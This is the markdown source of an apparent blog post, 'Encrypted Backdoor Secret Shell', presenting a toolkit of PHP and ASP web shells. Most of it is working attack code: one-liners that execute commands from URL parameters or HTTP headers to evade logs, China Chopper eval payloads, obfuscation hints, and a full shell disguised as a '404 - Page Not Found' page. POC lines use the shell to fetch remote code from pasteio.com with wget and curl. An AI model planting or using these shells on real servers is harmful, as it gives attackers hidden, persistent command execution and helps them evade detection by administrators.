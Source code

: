 ```yaml
---
layout: post
title: Encrypted Backdoor Secret Shell
date: 2022-08-01 14:42
author: theguler
comments: true
categories: [Hacking - Security]
---
```

<!-- wp:image {"id":3912,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://theguler.wordpress.com/wp-content/uploads/2022/08/fox-1.png?w=849" alt="" class="wp-image-3912" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>A webshell is a shell that you can access through the web. This is useful for when you have firewalls that filter outgoing traffic on ports other than port 80. As long as you have a webserver, and want it to function, you can't filter our traffic on port 80 (and 443). It is also a bit more stealthy than a reverse shell on other ports since the traffic is hidden in the http traffic.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><strong>Caution: </strong>I found it appropriate to share it without encryption to show that there is no log hidden in the codes. But I recommend Encrypt.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><strong>An example: China Chopper </strong>is a web shell approximately 4 kilobytes in size, first discovered in 2012. This web shell is commonly used by malicious Chinese actors, including advanced persistent threat (APT) groups, to remotely control web servers. This web shell has two parts, the client interface (an executable file) and the receiver host file on the compromised web server.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted"><strong>&lt;PHP:</strong><br>#Execute one command<br><strong>&lt;?php system("ls -a"); ?&gt;</strong><br><strong>&lt;?php system("whoami"); ?&gt;</strong><br><br>#Take input from the url paramter. run as any shell commands.<br><strong>&lt;?php system($_GET['cmd']);?&gt;</strong><br><br>#The same but using passthru<br><strong>&lt;?php passthru($_GET['cmd']); ?&gt;</strong><br><br>#For shell_exec to output the result you need to echo it<br><strong>&lt;?php echo shell_exec("whoami");?&gt;</strong><br><br>#Exec() does not output the result without echo, and only output the last line. So not very useful!<br><strong>&lt;?php echo exec("whoami");?&gt;</strong><br><br>#Instead to this if you can. It will return the output as an array, and then print it all.<br><strong>&lt;?php exec("ls -la",$array); print_r($array); ?&gt;</strong><br><br>#preg_replace(). This is a cool trick<br><strong>&lt;?php preg_replace('/.*/e', 'system("whoami");', ''); ?&gt;</strong><br><br># Using backticks<br><strong>&lt;?php $output = `whoami`; echo "&lt;pre&gt;$output&lt;/pre&gt;"; ?&gt;</strong><br><br>#Using backticks<br><strong>&lt;?php echo `whoami`; ?&gt;</strong><br><br><strong>POC:</strong><br>http://192.168.1.103/fox.php?cmd=pwd<br>/index.php?cmd=wget https://pasteio.com/raw/bl8okgdd fox.php<br>/index.php?cmd=curl https://pasteio.com/raw/lkjfjfd &gt; fox.php <br>/index.php?cmd=GET https://pasteio.com/raw/erg44j fox.php<br><br><br><strong>Make it stealthy:</strong><br># We can make the commands from above a bit more stealthy. Instead of passing the cmds through the url, which will be obvious in logs, we cna pass them through other header-paramters.<br><br><strong>&lt;?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?&gt;<br>&lt;?php system($_SERVER['HTTP_USER_AGENT'])?&gt;</strong><br><br># I have had to use this one<br><strong>&lt;?php echo passthru($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?&gt;</strong><br><br><strong>Obfuscation:</strong><br><strong>eval(): </strong>A function that evaluates a given string as PHP code<br><strong>assert(): </strong>A function that evaluates a given string as PHP code<br><strong>base64():</strong> Encodes data with MIME base64 encoding<br><strong>gzdeflate():</strong> Compresses a string using DEFLATE data format; gzinflate() decompresses it<br><strong>str_rot13():</strong> Shifts every letter of a given string 13 places in the alphabet<br><br><strong>&lt;ASP:</strong><br>&lt;%<br>Dim oS<br>On Error Resume Next<br>Set oS = Server.CreateObject("WSCRIPT.SHELL")<br>Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)<br>%&gt;<br><br><strong>China Chopper</strong>:<br>PHP: &lt;?php @eval($_POST[‘password’]);?&gt;<br>ASPX: &lt;%@ Page Language=”Jscript”%&gt;&lt;%eval(RequestItem[“password”],”unsafe”);%&gt;</pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p><strong>2 Basic PHP WebShell Frontend:</strong></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">#1<br>&lt;?php<br>if (isset($_GET['cmd'])) {<br>    $cmd = $_GET['cmd'];<br>    system($cmd);<br>} else {<br>    echo "404 - Page Not Found";<br>}<br>?&gt;<br><br>#2<br><strong>&lt;html&gt;<br>&lt;body&gt;<br>&lt;form method="GET" name="&lt;?php echo basename($_SERVER['PHP_SELF']); ?&gt;"&gt;<br>&lt;input type="TEXT" name="cmd" autofocus id="cmd" size="60"&gt;<br>&lt;input type="SUBMIT" value="Execute"&gt;<br>&lt;/form&gt;<br>&lt;pre&gt;<br>&lt;?php<br>    if(isset($_GET['cmd']))<br>    {<br>        system($_GET['cmd']);<br>    }<br>?&gt;<br>&lt;/pre&gt;<br>&lt;/body&gt;<br>&lt;/html&gt;</strong></pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p><strong>Copyright 2017 WhiteWinterWolf</strong>  <strong>Shell Source Code</strong></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted"><a href="https://github.com/theguler0x/Shell">https://github.com/theguler0x/Shell</a></pre>
<!-- /wp:preformatted -->
